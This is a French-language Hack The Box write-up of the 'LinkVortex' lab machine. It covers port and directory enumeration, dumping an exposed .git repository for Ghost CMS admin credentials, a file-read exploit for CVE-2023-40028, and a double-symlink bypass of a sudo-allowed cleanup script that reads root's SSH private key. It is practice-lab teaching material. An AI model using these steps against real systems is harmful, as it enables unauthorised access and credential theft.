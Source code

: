 ```yaml
---
date: 2025-04-11T22:37:01-05:00
# description: ""
image: "/images/HTB-LinkVortex/LinkVortex"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: LinkVortex"
type: "post"
---
```


* Platforme: Hack The Box
* Lien: [LinkVortex](https://app.hackthebox.com/machines/LinkVortex)
* Niveau: Facile
* OS: Linux
---

LinkVortex utilise une version vulnérable de Ghost CMS. Nous trouvons un répertoire caché hébergeant une page de connexion pour l'administrateur Ghost, ainsi qu'un répertoire `.git` exposé. Ce dernier contient des identifiants valides pour la page admin. Nous exploitons ensuite le `CVE-2023-40028`, une vulnérabilité de lecture de fichiers, pour lire des fichiers sensibles sur le serveur, et trouvons des identifiants supplémentaires. Ces derniers nous permettent d'obtenir un accès initial via SSH. L'escalade des privilèges est réalisée en exploitant un script exécutable en tant que root. 

## Balayage

```
nmap -sC -sV {TARGET_IP}
```

**Résultats**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 09:42 CST
Nmap scan report for 10.129.231.194
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)

80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.71 seconds
```

Nmap trouve deux ports ouverts: `22` pour SSH et `80` pour http. De plus, il y a une redirection vers `linkvortex.htb`.

```
sudo echo "{TARGET_IP} linkvortex.htb" | sudo tee -a /etc/hosts
```

## Enumération

À `http://linkvortex.htb/`, nous trouvons un blog utilisant le système de gestion de contenu [Ghost CMS](https://ghost.org/). Wappalyzer nous indique que la `version 5.58` est utilisée. 

![LinkVortex website](/images/HTB-LinkVortex/linkvortex_website.png)

Avec feroxbuster, nous trouvons `/ghost`.

```
feroxbuster -u http://linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 200 -r --scan-dir-listings -C 403,404
```

![ghost hidden directory](/images/HTB-LinkVortex/ghost_directory.png)

En visitant `http://linkvortex.htb/ghost/`, nous arrivons sur une page de connexion admin.

![ghost admin page](/images/HTB-LinkVortex/ghost_admin_page.png)

En énumérant les sous-domaines, nous découvrons le sous-domaine `dev`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -ic -fs 230
```

![dev subdomain found](/images/HTB-LinkVortex/subdomain_dev.png)

`http://dev.linkvortex.htb/` mène à un autre site web qui est en construction.

![website at dev subdomain](/images/HTB-LinkVortex/dev_subdomain_website.png)

Nous trouvons également un répertoire caché (`.git`) pour le sous-domaine.

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://dev.linkvortex.htb/FUZZ -ic --fc 404,403
```

![git hidden folder](/images/HTB-LinkVortex/subdomain_git.png)

En visitant `http://dev.linkvortex.htb/.git` nous trouvons des fichiers pour un dépôt git.

![git files](/images/HTB-LinkVortex/linkvortex_git_files.png)

Nous téléchargeons le dépôt disponible à `http://dev.linkvortex.htb/.git` avec [git-dumper](https://github.com/arthaud/git-dumper).

```
git-dumper http://dev.linkvortex.htb/.git git_linkvortex
```

![git dumper command](/images/HTB-LinkVortex/git_dumper_linkvortex.png)

A l'intérieur du répertoire, nous recherchons des informations d'identification, en utilisant `grep -iR "password"`. Quelques possibilités de mot de passe sont découvertes.

![passwords found in project files](/images/HTB-LinkVortex/passwords_found.png)

Nous pouvons nous connecter sur `http://linkvortex.htb/ghost` avec `admin@linkvortex.htb:OctopiFociPilfer45` et accéder au tableau de bord de Ghost.

![Ghost Dashboard](/images/HTB-LinkVortex/ghost_dashboard.png)

## Accès initial

Maintenant que nous détenons des identifiants valides, nous pouvons utiliser ce [PoC](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) pour `CVE-2023-40028` afin de lire des fichiers sur le système cible.

![CVE-2023-40028](/images/HTB-LinkVortex/CVE-2023-40028.png)

Parmi les fichiers du dépôt, il y en a un appelé `Dockerfile.ghost`, en vérifiant son contenu nous trouvons un fichier de configuration à `/var/lib/ghost/config.production.json`.

En utilisant notre vulnérabilité de lecture de fichier, nous lisons `/var/lib/ghost/config.production.json` et trouvons les identifiants d'un autre utilisateur.

![Dockerfile config](/images/HTB-LinkVortex/creds_docker_config.png)

```
bob@linkvortex.htb:fibber-talented-worth
```

Nous nous connectons via SSH en tant que `bob` et pouvons lire le drapeau de l'utilisateur.

![user flag](/images/HTB-LinkVortex/user_flag.png)

## Elévation de Privilèges

Nous consultons les privilèges sudo de l'utilisateur et constatons qu'il peut exécuter `/usr/bin/bash /opt/ghost/clean_symlink.sh *.png` en tant que n'importe quel utilisateur, sans fournir de mot de passe.

![sudo privileges for bob](/images/HTB-LinkVortex/sudo_privs_linkvortex.png)

Le contenu de `/opt/ghost/clean_symlink.sh` est le suivant

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Le script `clean_symlink.sh` est conçu pour gérer les liens symboliques ciblant les fichiers `.png`. Il vérifie si le fichier fourni est un lien symbolique et, si c'est le cas, détermine son chemin cible. Si le lien symbolique pointe vers un répertoire sensible tel que `/etc` ou `/root`, le script le supprime. Sinon, il déplace le lien symbolique vers un répertoire de quarantaine (`/var/quarantined/`). De plus, lorsque la variable d'environnement `CHECK_CONTENT=true` est définie, le script tente de lire et d'afficher le contenu du fichier (ou du fichier vers lequel pointe le lien symbolique).

Nous pouvons essayer d'exploiter le script avec un lien symbolique pointant vers la clé SSH root.

```
touch id_rsa.png
ln -sf /root/.ssh/id_rsa id_rsa.png
sudo /usr/bin/bash /opt/ghost/clean_symlink.sh id_rsa.png
```

Le lien est en effet supprimé.

![Symlink exploit failure](/images/HTB-LinkVortex/symlink_exploit_fail.png)

Essayons une autre méthode. Cette fois-ci, nous utiliserons deux liens symboliques afin de contourner la fonction de sécurité du script.

```
cd ~
ln -s /root/.ssh/id_rsa id_rsa.txt
ln -s /home/bob/id_rsa.txt root.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/root.png
```

![root privilege escalation](/images/HTB-LinkVortex/root_exploitation.png)

Nous exploitons avec succès le script et obtenons la clé SSH de l'utilisateur root. Nous sauvegardons la clé privée SSH récupérée et l'utilisons pour nous authentifier en tant qu'utilisateur root.

![root flag](/images/HTB-LinkVortex/root_flag.png)

### Explication de l'exploitation

Le script détecte `root.png` comme un fichier valide correspondant au modèle `*.png`. Cependant, `root.png` est un lien symbolique vers `id_rsa.txt`, qui est lui-même un lien symbolique vers `/root/.ssh/id_rsa`.

Puisque `CHECK_CONTENT=true`, le script affiche le contenu du fichier vers lequel pointe notre lien symbolique. Puisque le script s'exécute avec les privilèges de root, il suit avec succès les deux liens symboliques et finit par lire le contenu de `/root/.ssh/id_rsa`.



